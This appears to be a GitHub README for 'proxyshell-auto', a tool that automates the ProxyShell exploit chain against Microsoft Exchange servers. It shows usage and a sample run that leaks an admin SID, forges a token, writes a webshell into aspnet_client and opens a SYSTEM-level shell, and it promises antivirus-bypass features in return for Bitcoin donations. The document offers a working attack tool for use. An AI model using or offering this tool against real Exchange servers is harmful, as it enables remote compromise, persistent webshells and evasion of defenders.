 # proxyshell-auto
```
usage: proxyshell.py [-h] -t T

Automatic Exploit ProxyShell

optional arguments:
  -h, --help  show this help message and exit
  -t T        Exchange URL
  
Usage: 
C:\>python3 proxyshell.py -t exchange.lab.local
fqdn exchange.lab.local
+ admin@exchange.lab.local
legacyDN /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=admin
leak_sid S-1-5-21-3626636094-1513906978-1376853856-1156
token VgEAVAdX[cut]AAAA==
set_ews Success with subject badqxybxtecxuttq
write webshell at aspnet_client/tjmzk.aspx
<Response [404]>
<Response [404]>
nt authority\system
SHELL>
```
# Reference:
- https://github.com/dmaasland/proxyshell-poc
- https://github.com/ktecv2000/ProxyShell
- https://y4y.space/2021/08/12/my-steps-of-reproducing-proxyshell/-
- https://srcincite.io/blog/2021/08/25/pwn2own-vancouver-2021-microsoft-exchange-server-remote-code-execution.html

```
Buy me a coffee
BTC: 1Crcsso56NZ4ppy9wQBxaGobE7G4sJYwPd
I will update webshell encode & bypass av (only windows defender) and some function that can help you get fully valid mailbox address (no need to brute-forces)
```
